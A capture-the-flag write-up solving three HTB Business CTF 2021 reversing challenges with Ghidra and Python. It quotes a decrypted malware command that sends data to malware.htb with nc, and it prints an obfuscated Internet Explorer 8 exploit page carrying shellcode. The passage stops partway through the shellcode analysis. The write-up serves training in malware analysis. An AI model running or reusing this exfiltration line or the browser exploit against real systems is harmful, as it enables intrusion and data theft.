










# HTB Business CTF 2021


## Rev/synocaption


- Difficulty: ⭐


It's a Linux binary.


Let's go for the master `strings` command:


```
$ strings syncopation 
/lib64/ld-linux-x86-64.so.2
libc.so.6
exit
puts
__stack_chk_fail
stdin
printf
getline
__libc_start_main
GLIBC_2.4
GLIBC_2.2.5
[...]
Enter killswitch: 
Verifying authentication...
Correct authentication received, shutting down
ERROR - Invalid authentication!
;*3$"
GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
[...]
main
check
```


We can see that the binary asks for an input and checks it.
So let's find the checking method with [Ghidra](https://ghidra-sre.org/).





The main function :
```c


void main(void)


{
  undefined8 uVar1;
  undefined8 extraout_RDX;
  long lVar2;
  size_t *__n;
  EVP_PKEY_CTX *ctx;
  long in_FS_OFFSET;
  char *local_20;
  size_t local_18;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  printf("Enter killswitch: ");
  local_18 = 0;
  __n = &local_18;
  local_18 = getline(&local_20,__n,stdin);
  local_20[local_18 - 1] = '\0';
  puts("Verifying authentication...");
  uVar1 = checker((long)local_20);
  if ((int)uVar1 == 1) {
    puts("Correct authentication received, shutting down");
    func_0x00400580(0);
  }
  puts("ERROR - Invalid authentication!");
  ctx = (EVP_PKEY_CTX *)0xffffffff;
  func_0x00400580();
  _init(ctx);
  lVar2 = 0;
  do {
    (*(code *)(&__frame_dummy_init_array_entry)[lVar2])((ulong)ctx & 0xffffffff,__n,extraout_RDX);
    lVar2 = lVar2 + 1;
  } while (lVar2 != 1);
  return;
}
```


There is nothing really interesting here.
Continue to the `check` function :
```c
undefined8 checker(long param_1)


{
  undefined8 uVar1;
  long in_FS_OFFSET;
  uint local_3c;
  
  local_3c = 0;
  do {
    if (0x1d < local_3c) {
      uVar1 = 1;
code_r0x0040081c:
      if (*(long *)(in_FS_OFFSET + 0x28) == *(long *)(in_FS_OFFSET + 0x28)) {
        return uVar1;
      }
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    if (*(char *)(param_1 + (int)local_3c) != check[(int)(local_3c * 5)]) {
      uVar1 = 0xffffffff;
      goto code_r0x0040081c;
    }
    local_3c = local_3c + 1;
  } while( true );
}
```


It's more interessting here.  
With the condition `if (0x1d < local_3c)`, we have the length of the flag : 29.  
If the condition `if (*(char *)(param_1 + (int)local_3c) != check[(int)(local_3c * 5)])` is false, the function returns `0xffffffff` and stop its execution with the goto.


So each character of the input must be equal to the character of the check array located at the index multiplied by 5.





Copy this array in a python script (Right click > Copy Special > Python Byte String) and get all characters with an index multiple of 5.


```python
a = b'\x48\x42\xec\x99\xea\x54\xec\x99\xea\xc2\x42\x99\xea\xc2\x52\x7b\xea\xc2\x52\x2a\x34\xc2\x52\x2a\x09\x5f\x52\x2a\x09\x7d\x72\x2a\x09\x7d\x81\x34\x09\x7d\x81\xc6\x74\x7d\x81\xc6\x2a\x68\x81\xc6\x2a\xe9\x33\xc6\x2a\xe9\xf6\x72\x2a\xe9\xf6\x21\x5f\xe9\xf6\x21\xad\x30\xf6\x21\xad\x62\x66\x21\xad\x62\x00\x66\xad\x62\x00\xbd\x62\x62\x00\xbd\xcf\x33\x00\xbd\xcf\x59\x34\xbd\xcf\x59\x1c\x74\xcf\x59\x1c\x7c\x5f\x59\x1c\x7c\x90\x62\x1c\x7c\x90\x50\x31\x7c\x90\x50\x5d\x6e\x90\x50\x5d\x82\x34\x50\x5d\x82\x70\x72\x5d\x82\x70\x0e\x79\x82\x70\x0e\x84\x21\x70\x0e\x84\xf3\x7d\x0e\x84\xf3\x72\x00\x84\xf3\x72\xe7'
print(''.join([chr(a[i*5]) for i in range(0x1d)]))
```


Output: 
```
$ python solve.py 
HTB{4_r4th3r_0ffb34t_b1n4ry!}
```


## Rev/sleeper agent


- Difficulty: ⭐⭐


Again, it's a Linux binary. Nothing interesting with `strings`. Import it into ghidra.


We can see that the binary plays with threads (`pthread_create`, ...).


Let's go to main :
```c
undefined8 main(undefined8 param_1,undefined8 param_2,size_t *param_3,uchar *param_4,size_t param_5)


{
  int iVar1;
  code *pcVar2;
  size_t *outlen;
  size_t *outlen_00;
  size_t *outlen_01;
  undefined auVar3 [16];
  
  iVar1 = decrypt((EVP_PKEY_CTX *)(ulong)secretlen5,secret5,param_3,param_4,param_5);
  auVar3 = dlsym(0xffffffffffffffff,iVar1);
  ptracee = SUB168(auVar3,0);
  iVar1 = decrypt((EVP_PKEY_CTX *)(ulong)secretlen0,&secret0,SUB168(auVar3 >> 0x40,0),param_4,
                  param_5);
  pcVar2 = (code *)dlsym(0xffffffffffffffff,iVar1);
  (*pcVar2)();
  iVar1 = decrypt((EVP_PKEY_CTX *)(ulong)secretlen3,secret3,outlen,param_4,param_5);
  pcVar2 = (code *)dlsym(0xffffffffffffffff,iVar1);
  (*pcVar2)();
  iVar1 = decrypt((EVP_PKEY_CTX *)(ulong)secretlen3,secret3,outlen_00,param_4,param_5);
  pcVar2 = (code *)dlsym(0xffffffffffffffff,iVar1);
  (*pcVar2)();
  iVar1 = decrypt((EVP_PKEY_CTX *)(ulong)secretlen2,secret2,outlen_01,param_4,param_5);
  auVar3 = dlsym(0xffffffffffffffff,iVar1);
  iVar1 = decrypt((EVP_PKEY_CTX *)(ulong)secretlen4,secret4,SUB168(auVar3 >> 0x40,0),param_4,param_5
                 );
  (*SUB168(auVar3,0))(iVar1);
  return 0;
}
```


The binary decodes some secrets (5). Dump them all.


```python
chall = {
  'secret5': b'\x76\x03\x7c\x05\x61\x01\x7b\x04\x64\x02\x64\x00',
  'secret0': b'\x62\x02\x64\x03\x64\x00\x60\x01',
  'secret3': b'\x64\x03\x7d\x04\x79\x02\x77\x00\x79\x01',
  'secret2': b'\x65\x02\x63\x03\x6c\x01\x67\x00\x74\x05\x7d\x04',
  'secret4': b'\x75\x2b\x61\x1f\x57\x0c\x3d\x45\x04\x51\x12\x46\x0c\x4d\x69\x44\x78\x21\x2e\x40\x63\x3f\x16\x33\x2c\x42\x48\x1e\x20\x2d\x75\x32\x48\x5c\x0e\x23\x38\x04\x15\x43\x55\x1d\x60\x3e\x45\x0d\x78\x36\x7c\x26\x4a\x18\x09\x3d\x29\x39\x3c\x4b\x74\x0b\x30\x4a\x14\x52\x7c\x38\x01\x3b\x5c\x06\x5f\x08\x76\x01\x71\x00\x0f\x4f\x6a\x1a\x5a\x59\x09\x3a\x4a\x05\x09\x57\x46\x20\x76\x2a\x11\x35\x6b\x47\x06\x37\x75\x0e\x56\x1c\x56\x5a\x21\x49\x46\x54\x3f\x3c\x33\x2c\x57\x10\x4d\x15\x14\x12\x5a\x25\x7e\x02\x40\x16\x3f\x34\x61\x48\x49\x07\x1d\x31\x02\x53\x3d\x30\x0d\x2f\x0d\x41\x46\x28\x03\x4e\x7d\x11\x4c\x58\x40\x13\x6d\x1b\x40\x4c\x5b\x0f\x78\x09\x2f\x0a\x1e\x56\x13\x50\x58\x5b\x09\x24\x78\x03\x18\x14\x16\x2e\x73\x29\x49\x19\x07\x22\x01\x55\x03\x27\x65\x17',
}
```


If you take 2 minutes to read carefully the content of the secrets, it follows a strange format : `AA BB` where `AA` seems to be the encrypted data and the `BB` may be the index of the character in the decrypted string. 


For example, with `secret0` :
```
\x62\x02
\x64\x03
\x64\x00
\x60\x01
```


Go to the decryption function :
```c
int decrypt(EVP_PKEY_CTX *ctx,uchar *out,size_t *outlen,uchar *in,size_t inlen)


{
  void *pvVar1;
  int iVar2;
  int local_10;
  int local_c;
  
  iVar2 = (int)ctx;
  current = malloc((long)iVar2);
  pvVar1 = calloc((long)iVar2,8);
  lock = 1;
  for (local_c = 0; local_c < iVar2; local_c = local_c + 1) {
    pthread_create((pthread_t *)((long)pvVar1 + (long)local_c * 8),(pthread_attr_t *)0x0,dec_char,
                   out + (long)local_c * 2);
  }
  usleep(iVar2 * 5000);
  lock = 0;
  for (local_10 = 0; local_10 < iVar2; local_10 = local_10 + 1) {
    pthread_join(*(pthread_t *)((long)pvVar1 + (long)local_10 * 8),(void **)0x0);
  }
  return (int)current;
}
```


Rewrite the signature, rename variables (local_c, local_j -> i,j; ctx -> length_secret; out -> secret) :
```c
int decrypt(int *secretlen,char *secret,size_t *outlen,uchar *in,size_t inlen)


{
  void *array_pid;
  int length;
  int j;
  int i;
  
  length = (int)secretlen;
  current = malloc((long)length);
  array_pid = calloc((long)length,8);
  lock = 1;
  for (i = 0; i < length; i = i + 1) {
    pthread_create((pthread_t *)((long)array_pid + (long)i * 8),(pthread_attr_t *)0x0,dec_char,
                   secret + (long)i * 2);
  }
  usleep(length * 5000);
  lock = 0;
  for (j = 0; j < length; j = j + 1) {
    pthread_join(*(pthread_t *)((long)array_pid + (long)j * 8),(void **)0x0);
  }
  return (int)current;
}
```


It's more readable. So it creates as many threads as characters in the secret and call `dec_char` on each character.
We wait for the threads, join them and return the result.


Let's go on the dec_char :
```c


void dec_char(byte *param_1)


{
  char cVar1;
  size_t sVar2;
  
  if (ptracee != (code *)0x0) {
    cVar1 = (*ptracee)(0,0,0);
    *param_1 = cVar1 + *param_1;
  }
  do {
  } while (lock != 0);
  usleep((char)param_1[1] * 5000);
  sVar2 = strlen(current);
  current[sVar2 & 0xff] = *param_1 ^ (char)sVar2 + 0x14U;
                    /* WARNING: Subroutine does not return */
  pthread_exit((void *)0x0);
}
```


`sVar2` is the current length of the output variable `current`.
These are the steps of the `dec_char` function:


1. Wait 5000usec multiply by the 2nd byte of the input (which is the index of the character in the decrypted string)
2. Xor it with the current length of the output
3. Add an offset `0x14`


We have all the information to write the decryptor in Python.
Our decryption steps are


1. Split the secret every 2 characters
2. Sort the table with the 2nd character of each element
3. Xor each character with its index 
4. Add the offset `0x14`


```python
def prepare_secret(arr):
  arr = [arr[i:i+2] for i in range(0,len(arr),2)]
  arr.sort(key=lambda e: e[1])
  return arr


def decrypt(arr):
  res = ''
  for i in range(len(arr)):
    res += chr(arr[i][0] ^ i + 0x14)


  return res


chall = {
  'secret5': b'\x76\x03\x7c\x05\x61\x01\x7b\x04\x64\x02\x64\x00',
  'secret0': b'\x62\x02\x64\x03\x64\x00\x60\x01',
  'secret3': b'\x64\x03\x7d\x04\x79\x02\x77\x00\x79\x01',
  'secret2': b'\x65\x02\x63\x03\x6c\x01\x67\x00\x74\x05\x7d\x04',
  'secret4': b'\x75\x2b\x61\x1f\x57\x0c\x3d\x45\x04\x51\x12\x46\x0c\x4d\x69\x44\x78\x21\x2e\x40\x63\x3f\x16\x33\x2c\x42\x48\x1e\x20\x2d\x75\x32\x48\x5c\x0e\x23\x38\x04\x15\x43\x55\x1d\x60\x3e\x45\x0d\x78\x36\x7c\x26\x4a\x18\x09\x3d\x29\x39\x3c\x4b\x74\x0b\x30\x4a\x14\x52\x7c\x38\x01\x3b\x5c\x06\x5f\x08\x76\x01\x71\x00\x0f\x4f\x6a\x1a\x5a\x59\x09\x3a\x4a\x05\x09\x57\x46\x20\x76\x2a\x11\x35\x6b\x47\x06\x37\x75\x0e\x56\x1c\x56\x5a\x21\x49\x46\x54\x3f\x3c\x33\x2c\x57\x10\x4d\x15\x14\x12\x5a\x25\x7e\x02\x40\x16\x3f\x34\x61\x48\x49\x07\x1d\x31\x02\x53\x3d\x30\x0d\x2f\x0d\x41\x46\x28\x03\x4e\x7d\x11\x4c\x58\x40\x13\x6d\x1b\x40\x4c\x5b\x0f\x78\x09\x2f\x0a\x1e\x56\x13\x50\x58\x5b\x09\x24\x78\x03\x18\x14\x16\x2e\x73\x29\x49\x19\x07\x22\x01\x55\x03\x27\x65\x17',
}


for k,v in chall.items():
  print(k,repr(decrypt(prepare_secret(v))))
```


Output:
```
python solve.py 
secret5 'ptrace'
secret0 'puts'
secret3 'close'
secret2 'system'
secret4 'echo SFRCe1kwdWxsX2g0djNfdDBfdzRrM191cF8zNHJsaTNyX3QwX2M0dGNoX20zXzB1dH0=|nc malware.htb 7878'
```


Decode the base64 string and find the flag: 
```
echo "SFRCe1kwdWxsX2g0djNfdDBfdzRrM191cF8zNHJsaTNyX3QwX2M0dGNoX20zXzB1dH0=" | base64 -d
HTB{Y0ull_h4v3_t0_w4k3_up_34rli3r_t0_c4tch_m3_0ut}                                         
```


## Rev/sketchy_page


- Difficulty: ⭐⭐


The sketchy is a IExplore challenge... NOOOOOOOOOOOO !!!!!!!


The starting point is an obfuscated html file: `sketchy.html`. Beautify it with your prefered tool:


```html
<!DOCTYPE html>
<html>
  <head>
    <meta http-equiv="x-ua-compatible" content="IE=EmulateIE8" />
    <script language="JScript.Compact">
    [...]
      function main() {
        if (navigator.userAgent.indexOf("MSIE 8.0; Windows NT 6.1; Win64") == -1) {
      return false;
        }
        ruEx(Array(0x23a).join('\u1234'));
        olB = ol;
    [...]
        JM = iterMo(JSB);
        MM = iterMo(getBaseByImport(JM, "msvcrt.dll"));
        KM = iterMo(getBaseByImport(JM, "kernel32.dll"));
        NM = iterMo(getBaseByImport(MM, "ntdll.dll"));
        NTCA = gEx(NM, "NtContinue");
        VPA = gEx(KM, "VirtualProtect");
        LLA = gEx(KM, "LoadLibraryA");
        GPAA = gEx(KM, "GetProcAddress");
        ThfA = gEx(MM, "tanhf");
        oFVT = Array(3000 + 1).join('A');
        oFVT = oFVT + Array(157).join('A') + a2s(NTCA);
        oFVT = oFVT.substr(0, oFVT.length);
        oFVT = o2a(oFVT);
        scS = "\u10EB";
        scS += a2s(LLA);
        scS += a2s(GPAA);
        scS += "\u4855\uE589\u8348\u50EC\u8B48\uE105\uFFFF\u48FF\u4589\u48B0\u058B\uFFDE\uFFFF\u8948\uB845\u8348\u20EC\u0DEB\u656B\u6E72\u6C65\u3233\u642E\u6C6C\u4800\u0D8D\uFFEC\uFFFF\u55FF\u48B0\uC483\u4820\uC389\u8348\u20EC\u8948\uEBD9\u560D\u7269\u7574\u6C61\u6C41\u6F6C\u0063\u8D48\uEC15\uFFFF\uFFFF\uB855\u8348\u20C4\u8948\uC045\u8348\u20EC\u8948\uEBD9\u560F\u7269\u7574\u6C61\u7250\u746F\u6365\u0074\u8D48\uEA15\uFFFF\uFFFF\uB855\u8348\u20C4\u8948\uC845\u8348\u20EC\u0DEB\u6441\u6176\u6970\u3233\u642E\u6C6C\u4800\u0D8D\uFFEC\uFFFF\u55FF\u48B0\uC483\u4820\uC389\u8348\u20EC\u8948\uEBD9\u4315\u7972\u7470\u6341\u7571\u7269\u4365\u6E6F\u6574\u7478\u0041\u8D48\uE415\uFFFF\uFFFF\uB855\u8348\u20C4\u8948\uD045\u8348\u20EC\u8948\uEBD9\u430F\u7972\u7470\u6D49\u6F70\u7472\u654B\u0079\u8D48\uEA15\uFFFF\uFFFF\uB855\u8348\u20C4\u8948\uD845\u8348\u20EC\u8948\uEBD9\u430D\u7972\u7470\u6544\u7263\u7079\u0074\u8D48\uEC15\uFFFF\uFFFF\uB855\u8348\u20C4\u8948\uE045\u8D48\uE85D\u8348\u30EC\u8948\u48D9\uC2C7\u0000\u0000\u36EB\u694D\u7263\u736F\u666F\u2074\u6E45\u6168\u636E\u6465\u5220\u4153\u6120\u646E\u4120\u5345\u4320\u7972\u7470\u676F\u6172\u6870\u6369\u5020\u6F72\u6976\u6564\u0072\u8D4C\uC305\uFFFF\u49FF\uC1C7\u0018\u0000\uB848\u0000\uF000\u0000\u0000\u8948\u2444\uFF20\uD055\u8348\u30C4\u8B48\u481B\u7D8D\uEBF0\u082C\u0002\u1000\u0066\u2000\u0000\u5300\u4333\u3352\u5F54\u454B\u5F59\u4F44\u544E\u545F\u4C45\u5F4C\u4E41\u4F59\u454E\u2121\u2121\u4821\u358D\uFFCD\uFFFF\u8348\u30EC\u8948\u48D9\uF289\uC749\u2CC0\u0000\u4900\uC1C7\u0000\u0000\uC748\u2444\u0120\u0000\u4800\u7C89\u2824\u55FF\u48D8\uC483\u4C30\u278B\u8348\u20EC\uC748\u00C1\u0000\u4800\uC2C7\u1000\u0000\uC749\u00C0\u0010\u4900\uC1C7\u0004\u0000\u55FF\u48C0\uC483\u4820\uC789\u00E9\u0002\u9D00\u9D40\u951C\u8920\u89CB\uBBB0\u62A8\uBB37\uDC83\uAB37\u4D43\uCB7A\u78D1\u00C3\u56EC\u21C4\uE694\uAA36\u8495\uFF94\u6D00\u88F1\u6DB0\u07FA\u722F\u0EB7\u4BC7\uE328\u79B9\u30B0\u6B0C\uEA3C\uF0F6\uBD80\u2A32\u068E\u31F7\u181F\u4C2A\uACFC\u63E5\uF79D\u1536\u043E\uE1F0\u283B\u4C90\uA441\uBFE5\u633B\u7A6C\u0EE2\u584C\u5780\u09C0\uEDC8\uA003\u07F2\uFB86\uA13E\u1B6A\u5248\uE35E\u637B\uBD0D\u70AF\u362A\u00C9\uBF80\u4D79\uABD5\uAD98\u78EC\uE391\u13E4\uE2D8\uE3B2\u0E11\uB41E\uF979\uAB34\u593D\u4EB3\uB2FC\u0EC0\uB9FB\uD363\u3C43\u8610\u371D\uF43D\u7F76\uCEFF\u9FC4\u3180\u6920\uAB86\uB450\uBC15\uDEB2\u31B2\u3D0C\u4FBB\u649E\uE581\u082A\u42AE\uB4E9\uB0C6\u8007\u0F6A\u94D1\u0DD2\u86C8\uF642\uAA58\u9A79\uC8AA\u79B4\uC363\u04E0\u16B5\u47C3\u9F3B\uB229\u0FCE\u232C\u57DA\u7172\u6BCC\u506D\u9E06\u984C\u1EE6\uDACC\u3A6E\u2665\uCD06\u833F\u9C25\u959A\u21D0\uD340\uE50C\u11F1\u6839\uA2FD\uE0FC\u2917\u82CD\uB763\u0095\u6869\uFB0A\uE639\u2D30\u755E\u094C\uD7F0\u3A91\u6A1E\u9249\uC049\u2438\u55BF\u6900\u4CB3\u0B17\uA659\u218C\u7D9E\u7EFE\u2EDD\u769E\uB3FE\uD043\u3847\u553A\uBA0C\u7C38\uB882\uF44C\uA988\u9322\uC4A8\u6A4B\uC09C\u5CD5\uB093\u9FD5\uB2A5\u945A\u55CE\uB841\u7F5F\u6615\u162B\u41FE\uA7DE\uF53B\u5A33\uB426\uDA43\u9D5F\uA8A5\u7C39\u4CA8\u9D99\u17B5\u601D\u17C7\uD912\u840B\u2546\u8B7F\uBB28\uAFA8\u8160\uC353\uF8E9\u77B8\uEADD\uE823\u8199\u6C04\uB1E5\uB586\u6794\u8FD3\u0833\uB802\u16F0\u3517\uB8E7\u75A5\uEA9E\u1F1C\u29B4\u2737\u6AD0\u2E57\u7CC3\u8513\uF745\uB101\u2845\uF684\u0269\uC731\u6B22\u26B1\uE37F\uB0C9\u89F9\uDB08\u188A\u48DA\uC1C7\u0200\u0000\u8D48\uF235\uFFFD\uF3FF\u48A4\uC789\u8D48\uF85D\u03C7\u0200\u0000\u8348\u30EC\u894C\u48E1\uC2C7\u0000\u0000\uC749\u01C0\u0000\u4900\uC1C7\u0000\u0000\u8948\u247C\u4820\u5C89\u2824\u55FF\u48E0\uC483\u4830\u5D8D\u48F8\uEC83\u4820\uF989\uC748\u00C2\u0010\u4900\uC0C7\u0020\u0000\u8949\uFFD9\uC855\u8348\u20C4\u8B48\uB04D\u8B48\uB855\uD7FF\uC3C9\u0000\u0000";
        scS = scS.substr(0, scS.length);
        scA = o2a(scS);
        nSS = Array(0x100000 + 1).join('\u0101');
        nSS += a2s(VPA);
        nSS += a2s(scA);
        nSS = nSS.substr(0, nSS.length);
        nSA = addP(o2a(nSS), ((nSS.length * 2) - 0x10));
        sV = "";
        sV += a2s(i2a(0));
        sV = sV.substr(0, sV.length);
        sVA = o2a(sV);
        piv = fpiv(ThfA);
        ctx = mNTCD(JOSL, nSA, piv, scA, i2a(scS.length * 2), sVA);
      sleep(50000);
        execute(oFVT, ctx);
      }
      main();
    </script>
  </head>
</html>
```


In the main function, we have this ua: `MSIE 8.0; Windows NT 6.1; Win64`. It's the user agent for Internet Explorer 8 on Win7 64 bits.  
I think that the goal of the challenge is to be solved in a dynamic way.  
But as I never succeeded in launching this html file with the Internet Explorer version, I decided to solve it with a static way.


For the story, it seems that you have to launch Internet Explorer 8 64 bits and then open the file in it.  
When you double click on the file, the 32-bit version will be executed. (Thanks [Lasq88](https://github.com/lasq88) for the tips)


Let's go without Internet Explorer.  
We notice this blob : `scS += "\u4855\uE589\u8348\u50EC\u8B48\uE105\uFFFF\u48FF\u4589\u48B0\u058B`, which is not unicode of course.


If we unhexlify it may be, we can find some strings or something relevant :


```
binascii.unhexlify('4855E589834850EC8B48E105FFFF48FF458948B0058BFFDEFFFF8948B845834820EC0DEB656B6E726C653233642E6C6C48000D8DFFECFFFF55FF48B0C4834820C3898
34820EC8948EBD9560D726975746C616C416F6C00638D48EC15FFFFFFFFB855834820C48948C045834820EC8948EBD9560F726975746C617250746F636500748D48EA15FFFFFFFFB855834820
C48948C845834820EC0DEB6441617669703233642E6C6C48000D8DFFECFFFF55FF48B0C4834820C389834820EC8948EBD943157972747063417571726943656E6F6574747800418D48E415FFF
FFFFFB855834820C48948D045834820EC8948EBD9430F797274706D496F707472654B00798D48EA15FFFFFFFFB855834820C48948D845834820EC8948EBD9430D797274706544726370790074
8D48EC15FFFFFFFFB855834820C48948E0458D48E85D834830EC894848D9C2C70000000036EB694D7263736F666F20746E456168636E6465522041536120646E41205345432079727470676F6
1726870636950206F726976656400728D4CC305FFFF49FFC1C700180000B8480000F0000000000089482444FF20D055834830C48B48481B7D8DEBF0082C000210000066200000005300433333
525F54454B5F594F44544E545F4C455F4C4E414F59454E212121214821358DFFCDFFFF834830EC894848D9F289C7492CC000004900C1C700000000C74824440120000048007C89282455FF48D
8C4834C30278B834820ECC74800C100004800C2C710000000C74900C000104900C1C70004000055FF48C0C4834820C78900E900029D009D40951C892089CBBBB062A8BB37DC83AB374D43CB7A
78D100C356EC21C4E694AA368495FF946D0088F16DB007FA722F0EB74BC7E32879B930B06B0CEA3CF0F6BD802A32068E31F7181F4C2AACFC63E5F79D1536043EE1F0283B4C90A441BFE5633B7
A6C0EE2584C578009C0EDC8A00307F2FB86A13E1B6A5248E35E637BBD0D70AF362A00C9BF804D79ABD5AD9878ECE39113E4E2D8E3B20E11B41EF979AB34593D4EB3B2FC0EC0B9FBD3633C4386
10371DF43D7F76CEFF9FC431806920AB86B450BC15DEB231B23D0C4FBB649EE581082A42AEB4E9B0C680070F6A94D10DD286C8F642AA589A79C8AA79B4C36304E016B547C39F3BB2290FCE232
C57DA71726BCC506D9E06984C1EE6DACC3A6E2665CD06833F9C25959A21D0D340E50C11F16839A2FDE0FC291782CDB76300956869FB0AE6392D30755E094CD7F03A916A1E9249C049243855BF
69004CB30B17A659218C7D9E7EFE2EDD769EB3FED0433847553ABA0C7C38B882F44CA9889322C4A86A4BC09C5CD5B0939FD5B2A5945A55CEB8417F5F6615162B41FEA7DEF53B5A33B426DA439
D5FA8A57C394CA89D9917B5601D17C7D912840B25468B7FBB28AFA88160C353F8E977B8EADDE82381996C04B1E5B58667948FD30833B80216F03517B8E775A5EA9E1F1C29B427376AD02E577C
C38513F745B1012845F6840269C7316B2226B1E37FB0C989F9DB08188A48DAC1C7020000008D48F235FFFDF3FF48A4C7898D48F85D03C702000000834830EC894C48E1C2C700000000C74901C
000004900C1C7000000008948247C48205C89282455FF48E0C48348305D8D48F8EC834820F989C74800C200104900C0C7002000008949FFD9C855834820C48B48B04D8B48B855D7FFC3C900000000')
b'HU\xe5\x89\x83HP\xec\x8bH\xe1\x05\xff\xffH\xffE\x89H\xb0\x05\x8b\xff\xde\xff\xff\x89H\xb8E\x83H \xec\r\xebeknrle23d.llH\x00\r\x8d\xff\xec\xff\xffU\xffH
\xb0\xc4\x83H \xc3\x89\x83H \xec\x89H\xeb\xd9V\rriutlalAol\x00c\x8dH\xec\x15\xff\xff\xff\xff\xb8U\x83H \xc4\x89H\xc0E\x83H \xec\x89H\xeb\xd9V\x0friutlarPtoce
\x00t\x8dH\xea\x15\xff\xff\xff\xff\xb8U\x83H \xc4\x89H\xc8E\x83H \xec\r\xebdAavip23d.llH\x00\r\x8d\xff\xec\xff\xffU\xffH\xb0\xc4\x83H \xc3\x89\x83H \xec\x89H
\xeb\xd9C\x15yrtpcAuqriCenoettx\x00A\x8dH\xe4\x15\xff\xff\xff\xff\xb8U\x83H \xc4\x89H\xd0E\x83H \xec\x89H\xeb\xd9C\x0fyrtpmIoptreK\x00y\x8dH\xea\x15\xff\xff\xff\xff
\xb8U\x83H \xc4\x89H\xd8E\x83H \xec\x89H\xeb\xd9C\ryrtpeDrcpy\x00t\x8dH\xec\x15\xff\xff\xff\xff\xb8U\x83H \xc4\x89H\xe0E\x8dH\xe8]\x83H0\xec\x89HH\xd9\xc2\xc7
\x00\x00\x00\x006\xebiMrcsofo tnEahcndeR ASa dnA SEC yrtpgoarhpciP orived\x00r\x8dL\xc3\x05\xff\xffI\xff\xc1\xc7\x00\x18\x00\x00\xb8H\x00\x00\xf0\x00\x00\x0
